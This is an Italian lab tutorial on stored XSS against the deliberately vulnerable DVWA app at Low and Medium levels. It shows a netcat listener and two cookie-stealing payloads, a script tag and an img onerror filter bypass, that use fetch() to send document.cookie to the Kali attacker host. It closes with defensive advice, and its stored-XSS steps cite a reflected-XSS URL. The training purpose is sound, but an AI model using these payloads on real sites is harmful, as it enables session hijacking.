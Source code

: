 # Exploit XSS Persistente su DVWA (Low e Medium)

Questa guida illustra come sfruttare una vulnerabilità di **Cross-Site Scripting (XSS) Persistente** sulla piattaforma **DVWA (Damn Vulnerable Web Application)** in modalità Low e Medium. L'obiettivo è simulare il furto di cookie di sessione inviandoli a un server sotto il nostro controllo.

## Requisiti
- **DVWA** installato e configurato.
- Livelli di Sicurezza impostati su **Low** e **Medium**.
- **Server di Ascolto** su Kali Linux configurato per ricevere i cookie sulla porta 4444.

### Indirizzi IP:
- Kali Linux: 192.168.13.100
- Metasploitable: 192.168.13.150

---

## Parte 1: XSS Persistente in Modalità Low

### Obiettivo
Iniettare uno script malevolo nella web application DVWA per inviare i cookie della sessione al nostro server di ascolto.

### Passaggi
1. **Configura il Server di Ascolto su Kali Linux:**
   Avvia Netcat per ricevere i cookie sulla porta 4444:
   ```bash
   nc -lvnp 4444
   ```

2. **Accedi a DVWA:**
   Vai alla sezione **XSS Persistente:**
   ```
   http://192.168.13.150/dvwa/vulnerabilities/xss_r/
   ```

3. **Inserisci il Payload:**
   Usa il seguente script JavaScript nel campo vulnerabile (esempio: un campo commento):
   ```html
   <script>
     fetch('http://192.168.13.100:4444', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```

4. **Esegui il Payload:**
   Invia il payload premendo **Submit**. Ogni volta che la pagina viene caricata, lo script invierà i cookie della sessione al server di ascolto.

5. **Verifica i Cookie su Kali Linux:**
   Sul terminale di Kali Linux, dovresti vedere i cookie della sessione, ad esempio:
   ```
   PHPSESSID=abcdef1234567890; security=low
   ```

---

## Parte 2: XSS Persistente in Modalità Medium

### Obiettivo
Aggirare i filtri di input e sfruttare la vulnerabilità XSS per ottenere i cookie della sessione.

### Passaggi
1. **Configura il Server di Ascolto su Kali Linux:**
   Utilizza lo stesso comando di Netcat:
   ```bash
   nc -lvnp 4444
   ```

2. **Accedi a DVWA:**
   Vai alla sezione **XSS Persistente:**
   ```
   http://192.168.13.150/dvwa/vulnerabilities/xss_r/
   ```

3. **Inserisci il Payload Alternativo:**
   Poiché `<script>` potrebbe essere filtrato, utilizza il seguente payload:
   ```html
   <img src="nonexistent.jpg" onerror="fetch('http://192.168.13.100:4444', {method: 'POST', body: document.cookie})">
   ```

4. **Esegui il Payload:**
   Invia il payload premendo **Submit**. Ogni volta che un utente carica la pagina, l'evento `onerror` si attiverà e invierà i cookie al server di ascolto.

5. **Verifica i Cookie su Kali Linux:**
   Controlla il terminale e verifica i cookie ricevuti:
   ```
   PHPSESSID=abcdef1234567890; security=medium
   ```

---

## Spiegazione dei Payload

### Payload in Modalità Low
- `<script>`: Inietta uno script JavaScript nella pagina vulnerabile.
- `document.cookie`: Recupera i cookie della sessione della vittima.
- `fetch`: Invia i cookie al server dell'attaccante tramite una richiesta HTTP POST.

### Payload in Modalità Medium
- `<img src="nonexistent.jpg">`: Un'immagine che non esiste attiva l'evento `onerror`.
- `onerror`: Contiene lo script malevolo per inviare i cookie.
- `fetch`: Come sopra, invia i cookie al server.

---

## Considerazioni di Sicurezza
Per proteggere le applicazioni da attacchi XSS:

- **Sanitizzazione dell'Input:**
  Filtra e valida tutti i dati forniti dagli utenti per evitare l'iniezione di codice malevolo.
- **Cookie HTTPOnly:**
  Imposta i cookie di sessione come HTTPOnly per impedire l'accesso tramite JavaScript.
- **Content Security Policy (CSP):**
  Configura una CSP per limitare l'esecuzione di script non autorizzati.

---

## Conclusione
Abbiamo dimostrato come sfruttare una vulnerabilità XSS Persistente su DVWA in modalità Low e Medium per rubare cookie di sessione. Questa guida evidenzia l'importanza di implementare misure di sicurezza per prevenire attacchi XSS.

Se hai bisogno di ulteriori chiarimenti o supporto, non esitare a contattarci! 🚀
